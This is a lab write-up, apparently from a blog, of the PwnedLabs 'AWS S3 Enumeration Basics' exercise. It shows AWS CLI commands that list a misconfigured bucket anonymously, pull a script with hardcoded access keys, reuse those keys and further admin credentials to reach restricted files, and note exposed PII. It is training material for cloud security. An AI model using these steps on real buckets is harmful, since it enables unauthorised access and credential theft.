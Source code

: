 ```yaml
---
layout: blog
title: AWS S3 Enumeration Basics - PwnedLabs
publishDate: 2025-06-01T12:00:00.000Z
description: Explore AWS S3 enumeration in this beginner lab, learning how
  attackers exploit Simple Storage Service to gain footholds and escalate
  privileges.
tags:
  - pwnedlabs
  - writeup
  - aws
---
```

In this lab, only the URL of a website was given - `hxxp[]://]dev[.]huge-logistics[.]com`. The goal was to find a hidden S3 bucket somewhere in the website. Since S3 is a storage service, some of the website assets might have been stored in a S3 bucket, like images and scripts. So I checked the source code.

![](/images/uploads/pasted-image-20250528234045.png)

As you can see in the image above, I found the links to assets stored in  S3 bucket, named `dev.huge-logistics.com`. It is sometimes possible to view the objects stored in the bucket by visiting the directory where the assets are stored(provided, we have the appropriate permission), which in this case was `hxxps[://]s3[.]amazonaws[.]com/dev-huge-logistics.com/static`.

![](/images/uploads/pasted-image-20250528234542.png)

But as you can see, access to view the contents of the bucket was denied. This is because of a default policy set by AWS on S3 buckets.

```json
{
	"Sid": "ListBucketRootAndShared",
	"Effect": "Allow",
	"Principal": "*",
	"Action": "s3:ListBucket",
	"Resource": "arn:aws:s3:::dev.huge-logistics.com",
	"Condition": {
		"StringEquals": {
			"s3:prefix": [
				"",
				"shared/",
				"static/"
			],
			"s3:delimiter": "/"
		}
	}
},
```

By default, the AWS CLI includes prefix= (an empty prefix) and delimiter=/ in requests, while the URL `hxxps[://]s3[.]amazonaws[.]com/dev.huge-logistics.com/` that the browser sends the GET request to doesn't include these parameters. So I modified the URL by including these prefixes with appropriate values.

* Root folder of S3 bucket: `hxxps[://]s3[.]amazonaws[.]com/dev[.]huge-logistics[.]com/?prefix=&delimiter=/`

![](/images/uploads/pasted-image-20250528235404.png)

Using the CLI is always more useful.

```sh
> aws s3 ls s3://dev.huge-logistics.com --no-sign-request
                           PRE admin/
                           PRE migration-files/
                           PRE shared/
                           PRE static/
2023-10-16 13:00:47       5347 index.html
```

But in this case recursive listing of all directories is denied. Using the `--recursive` flag allows you to list the contents of the directories and subdirectories as well.

```sh
> aws s3 ls s3://dev.huge-logistics.com --no-sign-request --recursive

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```

On listing each folder individually, the reason was found. I didn't have the permission to list the `admin/` and `migration-files/` directories.

But `static/` and `shared/` could be accessed.

```sh
> aws s3 ls s3://dev.huge-logistics.com/shared/ --no-sign-request
2023-10-16 11:08:33          0
2023-10-16 11:09:01        993 hl_migration_project.zip
```

The `shared/` directory had a ZIP archive `hl-migration_project.zip` which was of specific interest. I downloaded the file and unzipped it to reveal a PowerShell script.

```sh
> unzip hl_migration_project.zip
Archive:  hl_migration_project.zip
  inflating: migrate_secrets.ps1
```

```sh
> cat migrate_secrets.ps1
```

The first few lines of the PowerShell script contained the hardcoded Access Key and Secret Access Key. It contained the AWS region as well.

I used these credentials to configure AWS using the `aws configure` command. 

```sh
> aws configure
AWS Access Key ID [****************P7HK]: <access-key>
AWS Secret Access Key [****************4Hq3]: <secret-key>
Default region name [None]: us-east-1
Default output format [None]:
```

I confirmed the identity.

```sh
> aws sts get-caller-identity
{
    "UserId": "AIDA3SFMDAPOYPM3X2TB7",
    "Account": "794929857501",
    "Arn": "arn:aws:iam::794929857501:user/pam-test"
}
```

Now it was possible to list the contents of the `admin/` directory.

```sh
> aws s3 ls s3://dev.huge-logistics.com/admin/
2023-10-16 11:08:38          0
2024-12-02 09:57:44         32 flag.txt
2023-10-16 16:24:07       2425 website_transactions_export.csv
```

```sh
> aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt .
fatal error: An error occurred (403) when calling the HeadObject operation: Forbidden
```

But I was unable to download the files. So I checked the other directory, `migration-files/`.

```sh
> aws s3 ls s3://dev.huge-logistics.com/migration-files/
2023-10-16 11:08:47          0
2023-10-16 11:09:26    1833646 AWS Secrets Manager Migration - Discovery & Design.pdf
2023-10-16 11:09:25    1407180 AWS Secrets Manager Migration - Implementation.pdf
2023-10-16 11:09:27       1853 migrate_secrets.ps1
2023-10-16 14:00:13       2494 test-export.xml
```

There were two interesting files, one PowerShell script and a XML file. Downloading and opening the XML file revealed more user credentials including an AWS IT Admin user.

![](/images/uploads/pasted-image-20250529003209.png)

Configuring AWS with the new credentials, I tried to download the flag, and this time it worked. I got the flag. The other file in the `admin/` directory contained some Personally Identifiable Information (PII).

```sh
> aws s3 cp s3://dev.huge-logistics.com/admin/flag.txt .
download: s3://dev.huge-logistics.com/admin/flag.txt to ./flag.txt
```
